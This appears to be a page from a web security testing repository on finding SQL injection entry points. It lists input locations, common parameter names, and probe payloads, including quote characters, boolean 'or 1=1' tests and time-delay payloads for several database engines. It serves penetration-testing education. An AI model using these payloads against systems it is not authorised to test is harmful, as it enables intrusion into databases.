 - ## [Injection Points](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#injection-points-1)
- ## [List of Parametes](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#list-of-parameters)
- ## Giving Inputs
     * Error Based
     * True False Based 
     * Timing Attacks
     * Merging Characters
---

### Injection Points  
We should check for areas where ever we can give inputs like ==>
- Login Form
- Url Search Parameters
- Url id values
- Cookie Values
- XML encoded values like <storeId>**</storeId>
- Form Input Sections
- File Upload Sections
### List of parameters
    id
    select
    report
    role
    update
    query
    user
    name
    sort
    where
    search
    params
    process
    row
    view
    table
    from
    sel
    results
    sleep
    fetch
    order
    keyword
    column
    field
    delete
    string
    number
    filter

## Giving Inputs
### Error Based
We try to trigger any SQL error by applying these characters and strings
- Simple characters `'`, `"`, `;`, `)`
- Simple characters encoded: `%27`, `%22`, `%23`, `%3B`, `%29` and `%2A`
- Multiple encoding: `%%2727`, `%25%27`
- Unicode characters: `U+02BA`, `U+02B9`
### True False Based
Here we are trying to enter true and false logics. In some casses the website behaves differently to the true and false condition.

    and 1
    and true
    ' -- true
    page.asp?id=1 or 1=1 -- true
    page.asp?id=1' or 1=1 -- true
    page.asp?id=1" or 1=1 -- true
    page.asp?id=1 and 1=2 -- false
### Timing Attacks
Inputting different SQL commands to hit a time delay that can suggest the website may be vulnerable

    MySQL (string concat and logical ops)
    1' + sleep(10)
    1' and sleep(10)
    1' && sleep(10)
    1' | sleep(10)
    
    PostgreSQL (only support string concat)
    1' || pg_sleep(10)
    
    MSQL
    1' WAITFOR DELAY '0:0:10'
    
    Oracle
    1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
    1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
    
    SQLite
    1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
    1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))






    
